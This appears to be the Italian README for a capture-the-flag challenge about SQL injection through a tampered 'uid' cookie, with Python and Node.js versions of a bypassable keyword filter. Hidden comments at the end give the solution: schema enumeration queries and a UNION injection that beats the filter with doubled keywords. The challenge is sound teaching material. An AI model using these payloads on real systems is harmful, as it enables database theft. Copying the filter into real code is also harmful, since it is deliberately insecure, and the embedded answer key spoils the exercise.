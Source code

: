 # Challenge: Cookie Tampering & SQL Injection

## Descrizione
Hai accesso al codice sorgente di un'applicazione web con diverse vulnerabilità interessanti:
- Una **SQL Injection nella registrazione** 
- Una **Cookie Tampering vulnerability** nella pagina del profilo 🍪
- Un tentativo (fallito) di filtrare input pericolosi con una funzione bypassabile

L'obiettivo? Sfruttare queste vulnerabilità per recuperare la flag nascosta nella tabella!

## Obiettivo
- **Sfrutta la SQL injection nel cookie 'uid' della pagina profilo, stando attento al filtro utilizzato per l'esecuzione della query**
- **Costruisci una UNION injection per leggere la flag dalla tabella segreta**
- **Recupera il valore di della flag**

## Avviare il server:
```bash
docker pull ghcr.io/ax3lt/sqli-ch2
docker run -p 80:80 ghcr.io/ax3lt/sqli-ch2
```

## Suggerimenti
- Il codice nella pagina profilo usa questa query vulnerabile:
```sql
SELECT username FROM users WHERE id = [valore-del-cookie]
```

### Filtro (Python):
```python
def filter_query(query):
    keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"]
    for keyword in keywords:
        query = query.replace(keyword, "")
    return query
```

### Filtro (Node.js):
```javascript
function filterQuery(query) {
    const keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"];
    return keywords.reduce((filteredQuery, keyword) => {
        return filteredQuery.replace(keyword, "");
    }, query);
}
```

[//]: # (Prima bisogna spiegare che si possono ottenere info sui db e le loro tabelle con la query:)

[//]: # (```sql)

[//]: # ( SELECT table_name FROM ) 

[//]: # (information_schema.tables WHERE)

[//]: # ( table_schema=database() 

[//]: # (```)

[//]: # (E per ottenere i nomi delle colonne di una tabella si può usare:)

[//]: # (```sql)

[//]: # (SELECT column_name FROM information_schema.columns WHERE table_name='...')

[//]: # (```)

[//]: # (Inj finale pre filter:)

[//]: # (```sql)

[//]: # (2 UNION SELECT mypersonalflag FROM flagrandomwordss -- a)

[//]: # (```)

[//]: # ()
[//]: # (Inj finale post filter:)

[//]: # (```sql)

[//]: # (2 UNIOUNIONN SELECSELECTT mypersonalflag FROFROMM flagrandomwordss -- a)

[//]: # (```)

